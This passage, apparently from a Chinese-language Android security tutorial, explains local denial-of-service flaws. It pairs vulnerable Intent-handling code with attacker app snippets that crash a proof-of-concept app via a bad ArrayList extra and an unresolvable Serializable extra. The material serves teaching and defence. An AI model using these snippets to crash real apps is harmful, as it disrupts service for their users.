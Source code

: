   * 漏洞应用代码片段

    ```java
    Intent intent = getIntent();
    ArrayList<Integer> intArray = intent.getIntegerArrayListExtra("user_id");
    if (intArray != null) {
        for (int i = 0; i < USER_NUM; i++) {
            intArray.get(i);
        }
    }
    ```

  * 攻击应用代码片段

    ```java
    Intent intent = new Intent();
    intent.setClassName("com.alibaba.jaq.pocforrefuseservice", "com.alibaba.jaq.pocforrefuseservice.MainActivity");
    ArrayList<Integer> user_id = new ArrayList<Integer>();
    intent.putExtra("user_id", user_id);
    startActivity(intent);
    ```

  * 攻击应用代码运行后结果截图

    ![ClassCastException](https://itx-man.github.io/img/source/Snipaste_2020-05-14_15-10-19.png)

    ![ClassCastException](https://itx-man.github.io/img/source/Snipaste_2020-05-14_15-39-41.png)

* 4.ClassNotFoundException 异常导致的拒绝服务，源于程序没有无法找到从 getSerializableExtra() 获取到的序列化类对象的类定义，因此发生类未定义的异常而导致应用崩溃

  * 漏洞应用代码片段

    ```java
    Intent i = getIntent();
    i.getSerializableExtra("serializable_key");
    ```

  * 攻击应用代码片段

    ```java
    public void onCreate(Bundle savedInstanceState) {
         super.onCreate(savedInstanceState);
         setContentView(R.layout.main);
         Intent i = new Intent();
         i.setClassName("com.alibaba.jaq.pocforrefuseservice", "com.alibaba.jaq.pocforrefuseservice.MainActivity");
         i.putExtra("serializable_key", new SelfSerializableData());
         startActivity(i);
     }
    static  class SelfSerializableData implements Serializable {
         private static final long serialVersionUID = 42L;
         public SelfSerializableData() {
             super();
         }
     }
    ```
